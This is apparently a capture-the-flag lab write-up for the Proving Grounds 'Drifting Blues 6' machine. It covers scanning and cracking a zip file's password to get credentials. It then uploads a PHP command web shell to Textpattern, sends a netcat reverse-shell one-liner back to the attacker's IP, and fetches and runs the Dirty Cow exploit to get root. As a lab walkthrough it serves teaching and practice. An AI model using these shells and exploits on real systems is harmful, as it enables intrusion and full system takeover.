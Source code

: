```yaml
---
layout: default
title: Drifting Blues 6
parent: Proving Grounds Play
nav_order: 16
---
```


# Scanning

---

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/driftingblues]
└─$ sudo nmap -Pn -p- -sC -sV -T4 --open 192.168.160.219
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-10 10:28 EST
Nmap scan report for 192.168.160.219
Host is up (0.11s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.22 ((Debian))
|_http-title: driftingblues
| http-robots.txt: 1 disallowed entry
|_/textpattern/textpattern
|_http-server-header: Apache/2.2.22 (Debian)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.33 seconds

```

# Enumeration

---

## HTTP | 80

![index](../../../assets/images/ctfs/proving_grounds/driftingblues6/index.png)

![bottom](../../../assets/images/ctfs/proving_grounds/driftingblues6/bottom.png)

![robots](../../../assets/images/ctfs/proving_grounds/driftingblues6/robots.png)

![textpattern](../../../assets/images/ctfs/proving_grounds/driftingblues6/textpattern.png)

## WFUZZ/Gobuster

Uncovers _/spammer.zip_

Download and unzip looking for password for _creds.txt_

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/driftingblues]
└─$ unzip spammer.zip
Archive:  spammer.zip
[spammer.zip] creds.txt password:

```

Crack with John

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/driftingblues]
└─$ zip2john spammer.zip > spam.hash
ver 2.0 spammer.zip/creds.txt PKZIP Encr: cmplen=27, decmplen=15, crc=B003611D ts=ADCB cs=b003 type=0

┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/driftingblues]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt spam.hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
myspace4         (spammer.zip/creds.txt)
1g 0:00:00:00 DONE (2023-11-10 10:39) 16.66g/s 307200p/s 307200c/s 307200C/s havana..tanika
Use the "--show" option to display all of the cracked passwords reliably
Session completed.

```

Get creds from _spammer.zip_

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/driftingblues]
└─$ unzip spammer.zip
Archive:  spammer.zip
[spammer.zip] creds.txt password:
 extracting: creds.txt

┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/driftingblues]
└─$ ls
creds.txt  spam.hash  spammer.zip

┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/driftingblues]
└─$ cat creds.txt
mayer:lionheart

```

We now have some credentials to use somewhere...mayer:lionheart
{: .warn }

We are able to authenticate to _/textpattern/textpattern_

![logon](../../../assets/images/ctfs/proving_grounds/driftingblues6/logon.png)

# Exploitation

---

We have the ability to upload files in our authenticated section.

Reviewing _searchsploit_ for exploits on _Textpatter 4.8_ we have the following options:

```bash
# Exploit Title : TextPattern CMS 4.8.7 - Remote Command Execution (Authenticated)
# Date : 2021/09/06
# Exploit Author : Mert Da<C5><9F> merterpreter@gmail.com
# Software Link : https://textpattern.com/file_download/113/textpattern-4.8.7.zip
# Software web : https://textpattern.com/
# Tested on: Server : Xampp

First of all we should use file upload section to upload our shell.
Our shell contains this malicious code: <?PHP system($_GET['cmd']);?>

1) Go to content section .
2) Click Files and upload malicious php file.
3) go to yourserver/textpattern/files/yourphp.php?cmd=yourcode;

After upload our file , our request and respons is like below :

```

Create PHP CMD shell.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/driftingblues]
└─$ vim cmd.php

┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/driftingblues]
└─$ cat cmd.php
<?php

system($_GET['cmd'])

?>

```

Upload to the target.

![upload](../../../assets/images/ctfs/proving_grounds/driftingblues6/upload.png)

Run a test command and verify RCE.

![cmd](../../../assets/images/ctfs/proving_grounds/driftingblues6/cmd.png)

Use _revshellgen_ to generate a bash one-liner on our netcat listener.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/driftingblues]
└─$ revshellgen -i 192.168.45.217 -p 9001 -t nc-mknod

[+] Reverse shell command:

rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc 192.168.45.217 9001 1>/tmp/l

┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/driftingblues]
└─$ urlencode "rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc 192.168.45.217 9001 1>/tmp/l"
rm%20%2Ftmp%2Fl%3Bmknod%20%2Ftmp%2Fl%20p%3B%2Fbin%2Fsh%200%3C%2Ftmp%2Fl%20%7C%20nc%20192.168.45.217%209001%201%3E%2Ftmp%2Fl

# Execute the following URL

URL: http://192.168.160.219/textpattern/files/cmd.php?cmd=rm%20%2Ftmp%2Fl%3Bmknod%20%2Ftmp%2Fl%20p%3B%2Fbin%2Fsh%200%3C%2Ftmp%2Fl%20%7C%20nc%20192.168.45.217%209001%201%3E%2Ftmp%2Fl

# Get a reverse shell

┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/driftingblues]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.160.219] 33206
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

# Post-Exploitation

---

After chekcing for common privesc exploits, the prove to be vulnerable to Dirty Cow.

## Check OS Version

```bash
www-data@driftingblues:/etc$ uname -a
Linux driftingblues 3.2.0-4-amd64 #1 SMP Debian 3.2.78-1 x86_64 GNU/Linux

```

3.2.0-4 is susceptible to the Dirty Cow kernel exploit.

[rverton cowroot.c github raw code](https://gist.githubusercontent.com/rverton/e9d4ff65d703a9084e85fa9df083c679/raw/9b1b5053e72a58b40b28d6799cf7979c53480715/cowroot.c)

```bash
www-data@driftingblues:/tmp$ wget http://192.168.45.217:8000/cowroot.c
--2023-11-10 13:30:30--  http://192.168.45.217:8000/cowroot.c
Connecting to 192.168.45.217:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4688 (4.6K) [text/x-csrc]
Saving to: `cowroot.c'

100%[==============================================================>] 4,688       --.-K/s   in 0s

2023-11-10 13:30:30 (9.28 MB/s) - `cowroot.c' saved [4688/4688]

# Compile the exploit locally on target
www-data@driftingblues:/tmp$ gcc cowroot.c -o cowroot -pthread

# Run exploit
www-data@driftingblues:/tmp$ ./cowroot
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
Size of binary: 51096
Racing, this may take a while..
thread stopped
thread stopped
/usr/bin/passwd overwritten
Popping root shell.
Don't forget to restore /tmp/bak
root@driftingblues:/tmp# whoami
root
```

We have a root shell as a result of the Dirty Cow kernel exploit.
